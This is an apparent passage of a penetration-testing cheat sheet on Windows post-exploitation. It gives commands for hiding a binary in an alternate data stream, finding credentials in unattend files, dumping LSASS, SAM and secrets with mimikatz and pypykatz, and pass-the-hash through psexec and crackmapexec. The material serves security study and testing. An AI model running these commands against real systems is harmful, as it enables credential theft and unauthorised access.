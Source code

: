 A binary can be hidden into a legitimate txt file by using `type malicious_bin.exe > test.txt:malicious_bin.exe`

Then it can be used with a symbolic link to make things more difficult `mklink <symbolic_link_name> C:\Temp\test.txt:malicious_bin.exe`

## Credential Dumping

### Searching crendentials in Unattend Files

Some unattend files store user accounts credentials encoded in base64 those could be found in:

- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Autounattend.xml`

Another good option is to use `PowerUp.ps1` script the steps to repoduce it are:

1. Enable execution policy `powershell -ep bypass`
2. Load the module and execute PrivescAudit feature `.\PowerUp.ps1` -> `Invoke-PrivescAudit`

### Dumping Hashes

To dump hashes by using mimikatz is important to run a session with elevated privileges, this is becouse mimikatz will interact with LSASS process to dump the SAM database.

For using mimikatz in metasploit:

- `load kiwi` will load the mimikatz module
- `lsa_dump_sam` will dump SAM DB
- `lsa_dump_secrets` will dump cached sotred password, domain records and user credentials or hashes

It can be done with the mimikatz binary doe:

- `priivlege::debug` will show if the privs are the needed ones
- `sekurlsa::logonpasswords` will dump logon sessions and their plaintext password if applies
- `sekurlsa::minidump lsass` will dump lsass process
- `lsadump::sam` will dump SAM DB
- `lsadump::secrets`

Pypykatz is similar to mimikatz but its written in python:

- `pypykatz.py lsa minidump lsass.dmp` will dump lsass process

### Pass The Hash

In the case of SMB servers allows an user to authenticate throught a hash for it metasploit provides `windows/smb/psexec` module similarly to `psexec.py` script it lets an attacker to obtain a cmd sessions via SMB by providing an user and it hash.

Another tool used to obtain CLI sessions with other protocols is `crackmapexec` -> `crackmapexec <protocol> -u <user> -H <password_hash> -x "<command>"`